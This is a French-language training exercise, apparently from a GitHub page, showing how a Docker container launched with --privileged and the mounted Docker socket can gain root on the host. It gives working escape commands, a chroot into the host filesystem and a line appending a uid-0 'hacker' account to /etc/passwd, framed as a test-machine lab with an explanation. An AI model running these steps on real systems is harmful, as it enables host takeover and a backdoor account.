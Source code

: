 # **🔹 Exercise 10 Conteneur dangereux : Accès root de l'hôte depuis un conteneur 🚨⚠️**
En **production**, mal configurer un conteneur **peut exposer l’hôte** à des attaques et permettre une **escalade de privilèges**.  

📌 **Problème** : Certains paramètres de lancement permettent à un conteneur de **prendre le contrôle de l’hôte** !  

---

## **1️⃣ Pourquoi c’est dangereux ?**
- **Docker tourne en root** → Un conteneur peut potentiellement exécuter des commandes avec les **droits root** de l’hôte.
- **Accès au socket Docker (`/var/run/docker.sock`)** → Permet au conteneur de **gérer Docker lui-même**, créer d'autres conteneurs, supprimer des fichiers, etc.
- **Montage du système de fichiers de l’hôte** → Le conteneur peut **modifier des fichiers critiques** (`/etc/passwd`, `/root/.ssh`, `/etc/shadow`).
- **Ajout de privilèges avec `--privileged`** → Donne **un accès complet au noyau** du système.

---



## **2️⃣ Conteneur dangereux qui peut obtenir un accès root à l'hôte**
🚨 **Ne testez cela que sur une machine de test** 🚨
### **Prépation**

Créer un fichier secret
```sh
 echo "Supersecret" > secret.txt
 sudo chown root secret.txt 
 sudo chmod 400 secret.txt
 sudo mv secret.txt /etc/secret.txt
 cat /etc/secret.txt 
```


### **📌 Exemple : Accès root à l’hôte via `/var/run/docker.sock`**
1️⃣ **Lancer un conteneur en **mode privilégié** et en exposant le socket Docker** :
```sh
docker run -it --rm \
  --privileged \
  -v /var/run/docker.sock:/var/run/docker.sock \
  alpine sh
```
2️⃣ **Dans le conteneur, créer un nouveau conteneur root privilégié** :
```sh
apk add docker-cli
docker run -it --rm --privileged --net=host --pid=host -v /:/mnt alpine chroot /mnt sh
```
📌 **Résultat attendu** :  
- Vous avez un accès **root complet à l’hôte** depuis le conteneur.
- Vous pouvez **modifier des fichiers système**.

3️⃣ **Test : Ajouter un nouvel utilisateur root sur l’hôte** :
```sh
echo "hacker:x:0:0::/root:/bin/bash" >> /etc/passwd
```
4️⃣ **Ouvrir une session sur l’hôte avec cet utilisateur** :
```sh
su hacker
```
📌 **Le conteneur a complètement pris le contrôle de l’hôte !** 😱

---

## **3️⃣ Expliquer comment cela fonctionne**
### **🔍 Exploitation de `/var/run/docker.sock`**
Docker expose une **API UNIX (`/var/run/docker.sock`)** qui permet de gérer les conteneurs.  
📌 **Problème** :  
Si un conteneur a accès à ce socket, il peut :
- Lancer **d'autres conteneurs avec des privilèges élevés**.
- **Supprimer des conteneurs** sur l’hôte.
- **Monter tout le système de fichiers de l’hôte**.

### **🔍 Exploitation du mode `--privileged`**
L’option `--privileged` donne au conteneur **tous les privilèges root** :
- **Accès aux périphériques de l’hôte (`/dev`, `/sys`)**.
- **Modification des paramètres du noyau**.
- **Ajout d’interfaces réseau**.
- **Chargement de modules noyau**.

📌 **Conséquence** :
👉 Un attaquant peut **modifier l’OS de l’hôte directement depuis un conteneur** !